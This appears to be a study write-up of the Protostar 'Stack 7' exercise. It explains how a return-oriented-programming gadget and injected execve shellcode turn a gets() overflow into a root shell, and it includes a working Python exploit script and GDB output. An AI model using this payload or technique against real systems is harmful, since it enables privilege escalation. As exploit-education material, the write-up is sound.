 ## Return Oriented Programing ( ROP )

> Use to Bypass NX(DEP) and ASLR

- Code Reuse Technique

**Stack 7** [ [Description](https://exploit.education/protostar/stack-seven/) ]

Previous [r2libc](https://github.com/LunaM00n/LOL-Pwn/blob/master/Notes/20.NX_Bypass_r2libc.md) is straight forward ROP tecnique

source.c
```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

char *getpath()
{
  char buffer[64];
  unsigned int ret;

  printf("input path please: "); fflush(stdout);

  gets(buffer);

  ret = __builtin_return_address(0);

  if((ret & 0xb0000000) == 0xb0000000) {
      printf("bzzzt (%p)\n", ret);
      _exit(1);
  }

  printf("got path %s\n", buffer);
  return strdup(buffer);
}

int main(int argc, char **argv)
{
  getpath();
}
```
- Codes are not so different with stack6, we are not allowed to use 0xbf for EIP
- its used strdup(), instead of printf ( [strdup](https://www.man7.org/linux/man-pages/man3/strdup.3.html) )

strdup()
```c
function returns a pointer to a new string which is a
duplicate of the string _s_.
```
**Return to .text** 

Finding another ret in program codes ( using grep )
```c
$ objdump -d -M intel stack7 | grep -A5 'pop'
 8048360:       5b                      pop    ebx
 8048361:       81 c3 dc 13 00 00       add    ebx,0x13dc
 8048367:       8b 93 fc ff ff ff       mov    edx,DWORD PTR [ebx-0x4]
 804836d:       85 d2                   test   edx,edx
 804836f:       74 05                   je     8048376 <_init+0x22>
 8048371:       e8 1e 00 00 00          call   8048394 <__gmon_start__@plt>
--
 8048380:       58                      pop    eax
 8048381:       5b                      pop    ebx
 8048382:       c9                      leave
 8048383:       c3                      ret

Disassembly of section .plt:

--
 8048412:       5e                      pop    esi
 8048413:       89 e1                   mov    ecx,esp
 8048415:       83 e4 f0                and    esp,0xfffffff0
 8048418:       50                      push   eax
 8048419:       54                      push   esp
 804841a:       52                      push   edx
--
 8048492:       5b                      pop    ebx
 8048493:       5d                      pop    ebp
 8048494:       c3                      ret
 8048495:       8d 74 26 00             lea    esi,[esi+eiz*1+0x0]
 8048499:       8d bc 27 00 00 00 00    lea    edi,[edi+eiz*1+0x0]

080484a0 <frame_dummy>:
--
 8048552:       5d                      pop    ebp
 8048553:       c3                      ret
 8048554:       90                      nop
 8048555:       90                      nop
 8048556:       90                      nop
 8048557:       90                      nop
--
 8048563:       5d                      pop    ebp
 8048564:       c3                      ret
 8048565:       8d 74 26 00             lea    esi,[esi+eiz*1+0x0]
 8048569:       8d bc 27 00 00 00 00    lea    edi,[edi+eiz*1+0x0]

08048570 <__libc_csu_init>:
--
 80485c5:       5b                      pop    ebx
 80485c6:       5e                      pop    esi
 80485c7:       5f                      pop    edi
 80485c8:       5d                      pop    ebp
 80485c9:       c3                      ret

080485ca <__i686.get_pc_thunk.bx>:
 80485ca:       8b 1c 24                mov    ebx,DWORD PTR [esp]
 80485cd:       c3                      ret
--
 80485f7:       5b                      pop    ebx
 80485f8:       5d                      pop    ebp
 80485f9:       c3                      ret
 80485fa:       90                      nop
 80485fb:       90                      nop

Disassembly of section .fini:
--
 8048608:       5b                      pop    ebx
 8048609:       81 c3 34 11 00 00       add    ebx,0x1134
 804860f:       e8 2c fe ff ff          call   8048440 <__do_global_dtors_aux>
 8048614:       59                      pop    ecx
 8048615:       5b                      pop    ebx
 8048616:       c9                      leave
 8048617:       c3                      ret

```
**Pop;Pop;Ret**
```c
80485f7: 5b pop ebx  # POP
80485f8: 5d pop ebp  # POP
80485f9: c3 ret      # RET
```
Remember * We can't use the one which contains leave. Leave will destroy stack frame.

**Finding with ROP gadget** [ [Github](https://github.com/JonathanSalwan/ROPgadget) ]

This tool will find useful ROP gadget for you. You can also use metasploit framework.

**Just get out of getpath and go back to Stack**

Payload Idea
```c
JU(Shellcode)NK + pop;pop;ret + pop1 + pop2 + new eip + Shellcode
```
- Shellcode [ [x86 execve()](http://shell-storm.org/shellcode/files/shellcode-827.php) ]
- Pop;Pop;Ret -> `0x80485f7`
- pop1 & pop2 -> AAAA & BBBB
- new eip -> Address of JUNK ( not availabe yet )

**Overflow Confirmation**

```c
# Payload
python -c 'print "A"*80+"BBBB"+"CCCC"+"DDDD"+"EEEE"' > /tmp/1

# GDB
input path please: got path AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBAAAAAAAAAAAABBBBCCCCDDDDEEEE
0xbffffcac:     0x42424242      0x43434343      0x44444444      0x45454545
0xbffffcbc:     0xb7eadc00      0x00000001      0xbffffd64      0xbffffd6c
0xbffffccc:     0xb7fe1848      0xbffffd20      0xffffffff      0xb7ffeff4
0xbffffcdc:     0x080482bc      0x00000001      0xbffffd20      0xb7ff0626
0xbffffcec:     0xb7fffab0      0xb7fe1b28      0xb7fd7ff4      0x00000000
0xbffffcfc:     0x00000000      0xbffffd38      0x12920fc8      0x38d3f9d8
0xbffffd0c:     0x00000000      0x00000000      0x00000000      0x00000001
0xbffffd1c:     0x08048410      0x00000000      0xb7ff6210      0xb7eadb9b
0x8048544 <getpath+128>:        ret
0x8048545 <main>:       push   %ebp
```
**Using ppr**
0x80485f7 -> \xf7\x85\x04\x08
```c
python -c 'print "A"*80+"\xf7\x85\x04\x08"+"CCCC"+"DDDD"+"EEEE"' > /tmp/2

(gdb)
0xbffffcb8:     0x45454545      0xb7eadc00      0x00000001      0xbffffd64
0xbffffcc8:     0xbffffd6c      0xb7fe1848      0xbffffd20      0xffffffff
0xbffffcd8:     0xb7ffeff4      0x080482bc      0x00000001      0xbffffd20
0xbffffce8:     0xb7ff0626      0xb7fffab0      0xb7fe1b28      0xb7fd7ff4
0xbffffcf8:     0x00000000      0x00000000      0xbffffd38      0xe30d0a53
0xbffffd08:     0xc94cfc43      0x00000000      0x00000000      0x00000000
0xbffffd18:     0x00000001      0x08048410      0x00000000      0xb7ff6210
0xbffffd28:     0xb7eadb9b      0xb7ffeff4      0x00000001      0x08048410
0x80485f9 <__do_global_ctors_aux+41>:   ret
0x80485fa <__do_global_ctors_aux+42>:   nop
0x080485f9 in __do_global_ctors_aux ()
```
**Shellcode Injection with NOP**
```c
# Shellcode ( 23 bytes )
\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80

# New EIP ( Stack Address + 50 )
0xbffffcbc 
```
/tmp/exploit.py
```py
import struct
padding="A"*80

ppr=struct.pack("I",0x80485f7)
pop1="BBBB"
pop2="CCCC"
eip = struct.pack("I",0xbffffcbc+10)
nop = "\x90"*20
shellcode="\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"

print(padding+ppr+pop1+pop2+eip+nop+shellcode)
```
Payload work in gdb but outside gdb segmentation fault ( I used core file analysis technique )
```c
import struct
padding="A"*80

ppr=struct.pack("I",0x80485f7)
pop1="BBBB"
pop2="CCCC"
eip = struct.pack("I",0xbffffd0c+10)
nop = "\x90"*20
shellcode="\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"
```
Result
```c
$ (python /tmp/exploit.py;cat) | ./stack7
input path please: got path AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBCCCC
▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒1▒Ph//shh/bin▒▒▒°
                                        ̀1▒@̀
id
uid=1001(user) gid=1001(user) euid=0(root) groups=0(root),1001(user)
whoami
root
exit
```

ROP Emporium
```c
https://ropemporium.com/index.html
```


**Reference**
- [https://www.blackhat.com/presentations/bh-usa-08/Shacham/BH_US_08_Shacham_Return_Oriented_Programming.pdf](https://www.blackhat.com/presentations/bh-usa-08/Shacham/BH_US_08_Shacham_Return_Oriented_Programming.pdf)
- 
